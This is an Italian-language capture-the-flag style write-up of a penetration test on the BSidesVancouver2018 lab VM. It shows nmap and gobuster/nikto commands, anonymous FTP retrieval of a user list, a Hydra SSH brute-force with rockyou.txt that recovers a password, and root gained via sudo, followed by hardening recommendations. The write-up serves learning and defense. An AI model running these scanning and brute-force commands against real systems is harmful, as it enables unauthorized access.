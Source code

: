 
# 🔒 **Penetration Test Report - BSidesVancouver2018 VM**

---

## 🔍 **Obiettivo**
L'obiettivo era ottenere l'accesso **root** sulla macchina virtuale **BSidesVancouver2018**, partendo dalla scoperta dell'IP, enumerando i servizi esposti, sfruttando vulnerabilità e tecniche di brute-force.

---

## 🛠️ **Strumenti Utilizzati**
- **Nmap**: Scansione delle porte e dei servizi.
- **Gobuster**: Enumerazione directory HTTP.
- **Nikto**: Scansione vulnerabilità HTTP.
- **FTP**: Accesso anonimo.
- **Hydra**: Brute-force SSH.
- **Metasploit**: Tentativi di exploit per FTP.
- **Rockyou.txt**: Dizionario di password comuni.

---

## 📊 **1. Scoperta dell'IP del Target**
Utilizzando **nmap** per una scansione sulla rete locale, abbiamo identificato l'indirizzo IP del target:
```bash
sudo nmap -sn 192.168.1.0/24
```
**IP rilevato**: `192.168.1.63`

---

## 📈 **2. Scansione delle Porte e dei Servizi**
Eseguita una scansione dettagliata con **Nmap**:
```bash
sudo nmap -sS -sV -O 192.168.1.63
```
![sudonmap](./sudonmap.png) 
![sudonmap](./sudonmapportespecifiche.png) 

### **Risultati**:
| 🔗 Porta | ⚡ Servizio | 🔎 Versione            |
|-------|----------|---------------------|
| 21/tcp  | FTP      | vsftpd 2.3.5         |
| 22/tcp  | SSH      | OpenSSH 5.9p1 (Debian 7.10) |
| 80/tcp  | HTTP     | Apache 2.2.22 (Ubuntu)|

---

## 🌐 **3. Enumerazione HTTP (Porta 80)**

1. Visitando la pagina principale HTTP, abbiamo trovato un **WordPress obsoleto**.

2. **Enumerazione directory** con Gobuster:
   ```bash
   gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/common.txt
   ```
   **Risultati**:
   - `/robots.txt`
   - `/backup_wordpress/`


3. **Nikto Scan**:
   ```bash
   nikto -h http://192.168.1.63
   ```
   **Vulnerabilità riscontrate**:
   - **Apache 2.2.22 obsoleto**
   - Directory e file esposti (`robots.txt`, `/backup_wordpress/`).

![niktio](./niktio.png) 
---
![gobuster](./gobuster.png)
![backupwordpress](./backupwordpress.png) 
## 🌐 **4. Accesso FTP (Porta 21)**

Accesso anonimo abilitato:
```bash
ftp 192.168.1.63
Username: anonymous
Password: <vuoto>```

### **File trovato**:
- **users.txt.bk**
```bash
cat users.txt.bk
```
**Output**:
```
abatchy
john
mai
anne
doomguy
```
![getuserstxt](./getuserstxt.png) 
---

## 🛡️ **5. Tentativi di Exploit e WordPress Login**
![john](./john.png) 
![login](./login.png) 
1. **Accesso WordPress** con credenziali dell'utente `john`
2. Tentativo di caricare una **reverse shell** tramite plugin fallito.

3. **Scansione OpenSSH**:
   ```bash
   searchsploit openssh 5.9
   ```
   Nessun exploit diretto per RCE, ma tool utili per enumerazione utenti.
![searchexploit](./searchexploit.png)
 ---

## 🛡️ **6. Brute-Force SSH con Hydra**
![rockyou](./rockyou.png)
Sfruttando il file `users.txt.bk` e il dizionario `rockyou.txt`, abbiamo effettuato un attacco brute-force:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.63
```
![hydrafinal](./hydrafinal.png)
### **Risultato**:
- 🔑 **Username**: `anne`
- 🔐 **Password**: `princess`

---
![princes](./princes.png)
## 🔧 **7. Accesso SSH e Privilege Escalation**

1. Connessione SSH con le credenziali trovate:
   ```bash
   ssh anne@192.168.1.63
   Password: princess
   ```

2. Verifica privilegi sudo:
   ```bash
   sudo su
   ```
   **Risultato**: Accesso root ottenuto con successo.

---

## 💰 **Risultato Finale**
Accesso **root** completato. Verifica effettuata con:
```bash
whoami
id
```
![rootfinale](./rootfinale.png)
---

## ⚙️ **Conclusioni**
Il test è stato completato con successo grazie a:
1. **Scansione Nmap** per individuare i servizi.
2. **Enumerazione** di WordPress e FTP.
3. **Brute-force SSH** con Hydra utilizzando credenziali deboli.
4. **Privilege Escalation** con `sudo su`.

---

## ✅ **Raccomandazioni**
1. **Aggiornare i servizi obsoleti**:
   - OpenSSH e Apache.
2. **Disabilitare l'accesso FTP anonimo**.
3. **Implementare chiavi SSH** invece di password semplici.
4. **Proteggere file di backup** come `users.txt.bk`.

---
![exploitmetasploit](./exploitmetasploit.png)
